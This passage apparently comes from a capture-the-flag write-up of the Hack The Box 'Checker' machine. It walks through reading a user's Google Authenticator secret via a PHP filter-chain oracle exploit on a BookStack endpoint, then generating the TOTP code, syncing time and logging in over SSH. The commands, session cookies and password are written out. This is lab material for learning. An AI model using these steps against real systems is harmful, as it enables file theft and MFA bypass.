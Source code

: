 Scouring around the Book Stack we find a secure copy instruction:

![image.png]({{ site.baseurl }}/assets/checker/image%2015.png)

Maybe the /backup/home_backup dir:

```bash
python3 filters_chain_oracle_exploit.py --target http://checker.htb/ajax/page/8/save-draft --verb PUT --parameter html --headers '{"Cookie": "teampass_session=2bnuqpnk5qtuunqker5u8m9q47; jstree_select=1; bookstack_session=eyJpdiI6InJMZERyVHV5WlZES0ExVWZRYWJScmc9PSIsInZhbHVlIjoiaTdkbm5qVEFiU3gzQTlGcm12Q3ZJYUd2WVowbm85dlhRMndGMElDUS9CWUNaaG9EdUlFaFJaN0Y4Zkh5Si8rMm9PdHFMNmRtYmFDeW54YnI2UkRzcUhCUTBiMzMrUlE2WC84VzlNKzYrcUE5WjA4b1JQYS8vUUxzQ0NiS2x6bnAiLCJtYWMiOiJkMThjMzcwMmRmZTY3ODdkMTQzYjJiMzBhY2IzNmJjMGU2NWZkMzI3YTkzMDBmMTZjYjBiYzY1YjYzNjhlMWFlIiwidGFnIjoiIn0%3D; XSRF-TOKEN=eyJpdiI6InV2RFdWWDVMYUpiSTJnNWVob241dkE9PSIsInZhbHVlIjoibWtOZVlXR1R3OGdHdXA1d1BtRXFKQk5PaDY5S05lVGN5dDdKckFuTDY1RVRHRUpTNU1Pc29mbmZJVFVSU213SXNMbFhyYVpjQmJCeTJZc0RxQ1h4RldJSXlWYWswVFBGVjFseU1mVmNXTHh1aEVjc1l4cXJmQlp6eEJ0d0k2emwiLCJtYWMiOiJlYzU0ODBiOTNmMjMwODBkMjI4MTlmNzVkMmMzMTg5MDQ4OWNjODY4ZTViZGJlZWZkZGUyMjhkNzQxNjljYTAzIiwidGFnIjoiIn0%3D; remember_standard_59ba36addc2b2f9401580f014c7f58ea4e30989d=eyJpdiI6IjAyc1FMOVJvYWRMeWI2U1pNaEQrMFE9PSIsInZhbHVlIjoidjNlcGtYYnRWRzliUFFMZmYrN1hzazVnSlpKc2hwbTYxQldQbnlUK0wxRlE5T3BaRWYvcUV0NjM2RUxScWlvaEl1QXNucGNZSTZpdFUvS1BUVlYyeGZsQWZ2WUNkM1JHUE9KR216UEsrdnVUWU5seGIvUUtKdHF3b3BDVXcvV2RpMzI3RmtzYi92akxIYVd3NXFCd3VjTURheHFoU2tsNkt6czYxbkQ4Vyt2RkU1WFRycG1aVlF6cWRJL0xsY1FZa09UT3ZJK2pHdk1TajlpUmVoRjh2Q1BHQk1PMm5hcHMzNXd6OEtFN1podz0iLCJtYWMiOiI1ZTJlNDc0OWIyYTA2NTY3YmM2ZWRmNmM3ODM4NTkyZDJmNTI2MmJiMzc5MGU1MTE2M2I5NDJiMmUwMTY2MzQ2IiwidGFnIjoiIn0%3D","X-CSRF-TOKEN":"UMS9LQo5W7c2BjScWscdjNA5gr253ibVbd47ZmW7"}' --proxy http://localhost:8082 --file /backup/home_backup/home/reader/.google_authenticator

b'DVDBRAODLCWF7I2ONA4K5LQLUE\n" TOTP_AUTH\n'
```

Success! Now we can use oathtool to decode to get the MFA code

```bash
oathtool --totp -b DVDBRAODLCWF7I2ONA4K5LQLUE

297034
```

Let’s try to ssh in now:

```bash
ssh reader@10.10.11.56 #hiccup-publicly-genesis
```

However, our time is not in sync. So let’s sync our time:

```bash
date -d "$(curl -s -I http://checker.htb | grep Date | cut -d ' ' -f 3-)" "+%Y-%m-%d %H:%M:%S"

oathtool --totp -b DVDBRAODLCWF7I2ONA4K5LQLUE --now="$(date -d "$(curl -s -I http://checker.htb | grep Date | cut -d ' ' -f 3-)" "+%Y-%m-%d %H:%M:%S")"
```

We are in:

![image.png]({{ site.baseurl }}/assets/checker/image%2016.png)

Now let’s enumerate. Checking our sudo privileges, we find: 
